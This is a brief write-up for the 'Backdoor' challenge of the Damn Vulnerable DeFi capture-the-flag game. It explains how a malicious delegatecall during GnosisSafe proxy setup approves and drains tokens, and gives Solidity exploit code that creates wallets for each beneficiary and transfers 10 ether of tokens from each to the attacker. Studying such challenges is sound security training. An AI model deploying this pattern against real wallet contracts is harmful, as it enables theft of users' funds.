 # Backdoor

1. To solve this challenge, you have to understand how proxy and GnosisSafe work. We can abuse the `setup` call when we create the proxy for users by providing a call to malicious contract which call `approve` of token balance to the attacker address. the proxy will call this function use `delegatecall`, thus will approve the token using the proxy context.

```solidity

    function callApprove(address tokenAddr, address attacker) external {
        IERC20(tokenAddr).approve(attacker, 10 ether);
        // token.approve(address(this), 10 ether);
    }

    function callCreate(
        address singleton,
        address registryAddress,
        address[] calldata owners
    ) external {

        bytes memory data = abi.encodeWithSignature(
            "callApprove(address,address)",
            address(token),
            address(this)
        );
        for (uint i; i < owners.length; i++) {
            // address have to be wrapped
            // reference https://github.com/jmhickman/DamnVulnerableDeFi-Solutions/blob/main/Level11-Attack.sol
            address[] memory _target = new address[](1);
            _target[0] = owners[i];
            bytes memory initializer = abi.encodeWithSelector(
                SETUP_SELECTOR,
                _target,
                1,
                address(this),
                data,
                address(0),
                address(0),
                0,
                address(0)
            );
            IProxyCreationCallback callbackRegistry = IProxyCreationCallback(
                registryAddress
            );
            GnosisSafeProxy proxy = proxyFactory.createProxyWithCallback(
                singleton,
                initializer,
                0,
                callbackRegistry
            );
            token.transferFrom(address(proxy), owner, 10 ether);
        }
    }
```
